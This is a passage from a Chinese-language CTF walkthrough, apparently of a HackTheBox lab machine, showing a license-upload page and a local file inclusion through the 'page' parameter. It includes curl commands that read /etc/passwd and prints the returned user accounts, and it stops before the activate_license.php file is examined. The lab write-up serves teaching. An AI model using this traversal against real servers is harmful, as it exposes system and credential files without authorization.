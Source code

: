 上传许可证密钥

有一个对话框要求输入许可证密钥文件，不管你是选择一个随机文件上传还是点击提交，你都会看到一个名为 activate_license.php 的空白页面:

![](img/69cc0cfdd4aa8739a2d73ebbc6524ff4.png)

激活许可证

我找不到任何东西，所以回到之前的参数。这给了我们 default.html 文件:

```
┌──(root㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─# curl http://10.10.11.154/index.php?page=default.html
```

# 文件探索

让我们看看是否可以进行目录遍历来访问其他文件，如 passwd:

```
┌──(root㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─# curl "http://10.10.11.154/index.php?page=/etc/passwd" | grep -v nologin
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1488    0  1488    0     0  27009      0 --:--:-- --:--:-- --:--:-- 27054
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
vagrant:x:1000:1000::/vagrant:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

我们可以，并且可以看到有一个叫 dev 的用户。现在让我们看看 activate_license.php 文件:

